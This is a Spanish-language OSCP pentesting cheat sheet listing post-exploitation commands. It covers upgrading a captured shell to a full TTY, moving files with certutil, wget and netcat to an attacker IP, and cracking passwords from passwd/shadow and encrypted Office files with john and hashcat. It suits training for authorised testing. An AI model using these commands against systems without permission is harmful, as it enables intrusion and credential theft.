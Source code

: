 

### Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

 
### Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'

 

### Descompresión[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#descompresion)

#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip

 

### Comparación de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#comparacion-de-archivos)

diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt

 
### Transferencia de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#transferencia-de-archivos)

#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt

​

#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

#### 

Sniffing[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#sniffing)

tcpdump -i tun0 icmp -n

#### 

Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

#### 

Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)

searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo